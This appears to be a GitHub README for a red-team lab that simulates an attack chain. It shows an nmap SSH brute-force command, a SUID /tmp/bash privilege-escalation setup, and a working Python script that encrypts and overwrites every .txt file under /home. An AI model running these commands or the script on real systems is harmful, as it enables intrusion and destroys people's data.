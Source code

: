 # Red-Team-Attack simulation

Brute Force → Privilege Escalation → Ransomware Execution

This repository demonstrates a **complete attack chain simulation** in a controlled environment.
The goal is to emulate real-world attacker behavior to test and improve detection, response, and hardening capabilities.


Scenario Overview

> Simulated attack flow:
1. **Brute-force attack** on SSH to gain user credentials.
2. **Access the target system** using stolen credentials.
3. **Privilege escalation** via shell misconfiguration (`/bin/bash -p` or `bash -p`).
4. **Deploy and execute a ransomware-like script** to encrypt files.
5. **descalation** 

---

## 🔧 Environment Setup

> Recommended tools & platforms:
- Target OS: **Ubuntu/Kali Linux VM**
- Attacker: **Kali Linux**
- Tools used: `nmap`, `ssh`, `bash`, custom `ransomware.sh` script

---

##  Step 1: Brute Force Attack

Simulate brute-forcing a user account (`victim`) using `nmap`:
nmap --script ssh-brute --script-args userdb=username.txt,passdb=passwords.txt -p 22 10.0.2.10

##  Step 2: login as a normal user 
 ssh user@server-ip

 ##  Step 3: privilege escalation via misconfiguration 
 
   As root, copy /bin/bash to /tmp/bash:
    cp /bin/bash /tmp/bash
    
   Make root the owner and set the SUID bit:
    chown root:root /tmp/bash
    chmod +s /tmp/bash
    
   Now, execute the bash binary as a normal user:
    /tmp/bash -p

##  Step 4:Deploy and execute a ransomware-like script

ransomware script :                    
  
    from cryptography.fernet import Fernet
    import os
    
    # Change to the target directory
    os.chdir("/home/")
    
    # Generate and save a Fernet key (only once, or reuse an existing one)
    key = Fernet.generate_key()
    with open("key.key", "wb") as f:
        f.write(key)
    
    # Initialize Fernet with the key
    fernet = Fernet(key)
    
    # Walk through the directory and encrypt all .txt files
    for root, dirs, files in os.walk(os.getcwd()):
        for file in files:
            if file.endswith(".txt"):
                file_path = os.path.join(root, file)
                
                # Read original content
                with open(file_path, "rb") as f:
                    data = f.read()
                
                # Encrypt the content
                encrypted = fernet.encrypt(data)
                
                # Overwrite the file with encrypted content
                with open(file_path, "wb") as f:
                    f.write(encrypted)


 
    



